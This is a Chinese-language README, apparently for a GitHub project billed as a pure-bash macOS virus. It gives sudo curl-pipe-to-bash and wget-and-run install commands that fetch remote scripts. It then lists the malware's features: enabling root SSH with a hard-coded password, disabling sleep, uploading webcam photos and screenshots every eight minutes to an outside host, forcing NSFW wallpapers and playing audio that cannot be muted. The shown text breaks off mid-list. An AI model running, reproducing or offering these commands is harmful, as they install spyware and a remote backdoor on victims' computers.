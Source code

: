# 史上第一款，MacOS M系列病毒，100%纯bash（需要手动给予权限/nclick exploit）

首次设置
---
`sudo curl -fsSL https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/humaninter.sh | bash`

一键启动
---
`wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

(一键启动之后建议先CTRL+C然后把~/programfiles/time.txt文件vim一下往后调3个小时，让他先强制运行一遍，确认上传+权限Terminal已经给好。然后重启电脑，确认DL.app也拥有相应权限。之后建议把Time再改回来然后直接重启。）

一键启动如果出现无法启动，没有下载完全等bug请用一下指令修复

`sudo rm -rf ~/programfiles && wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

病毒功能介绍：
---
1.把root用户变成活跃用户，激活root的ssh，并将root密码更改为Aa112211!

2.完全禁用MacOS睡眠功能，保证系用永远运行，关上机盖不会影响脚本运行，更不会影响ssh的通行。

3.每8分钟通过摄像头拍一张图片，截一张桌面的图片并上传至drive.genshinimpact.ca

4.NSFW抽卡式随机壁纸，每隔随机一段时间，会自动获取一张壁纸，保底为10（第十张图片一定是NSFW，否则SFW）通过两个不同的API，达到终极社死。

5.随机音频，每隔随机一段时间，会自动从内置的音效文件夹里播放一个音效，保底为10（第十个音频一定是长音频，否则短音效），播放过程中，声音为100%，而且无法静音，无法暂停，系统无法显示播放数据。

6.